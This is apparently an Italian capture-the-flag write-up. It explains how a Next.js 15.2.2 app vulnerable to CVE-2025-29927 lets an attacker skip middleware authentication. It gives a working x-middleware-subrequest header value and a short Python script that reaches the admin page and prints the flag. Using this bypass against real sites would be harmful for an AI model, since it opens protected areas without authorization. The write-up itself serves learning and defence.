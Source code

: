 # Evil Random (`evilrandom`)

La challenge espone un sito web che 'genera' parole casuali estraendole da un file di testo, scritta con `next.js`.

Analizzando attentamente il progetto non si trovano problemi evidenti, ed in effetti la vulnerabilità **non** si trova nel codice.
Il problema è proprio la versione utilizzata di `next.js`, la `15.2.2`.
```json
{
  "name": "evilrandom",
  "version": "0.1.0",
  "private": true,
  "scripts": {
    "dev": "next dev --turbopack",
    "build": "next build",
    "start": "next start",
    "lint": "next lint"
  },
  "dependencies": {
    "cookie": "^1.0.2",
    "next": "15.2.2",
    "react": "^19.0.0",
    "react-dom": "^19.0.0"
  }
}

```

Questa versione è vulnerabile a [CVE-2025-29927](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware) (scoperto circa 3 mesi fa).
Per accorgersene ci sono diversi modi, quello più semplice è provare a buildare con `npm` il progetto in locale:

![vuln](vuln.png)

E riconoscere la vulnerabilità con `npm audit`.

![audit](audit.png)

A questo punto sappiamo che il CVE ci permette di **bypassare** l'autenticazione del **middleware**, e di accedere alla pagina dell'admin, dove c'è la flag.
Per farlo si trovano diverse guide online, ma sostanzialmente l'exploit si basa sull'utilizzo scorretto di un header `x-middleware-subrequest`, che avrebbe l'intento di evitare richieste ricorsive infinite fatte dal middleware, skippandolo quando ce ne sono più di 5 (più dettagli [qua](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)).


A questo punto, basterà fare una richiesta con questo header e 5 "finte" richieste:
`"x-middleware-subrequest" : "middleware:middleware:middleware:middleware:middleware"`

```python
import requests
h = "middleware:middleware:middleware:middleware:middleware"
r = requests.get("http://localhost:8003/admin", headers={"x-middleware-subrequest": h}, allow_redirects=False)
print(r.text)
```

Flag: `rossiCTF{m1dDl3W4r3_Byp4Ss_h3ll_y3ahHh!!_7dc19f}`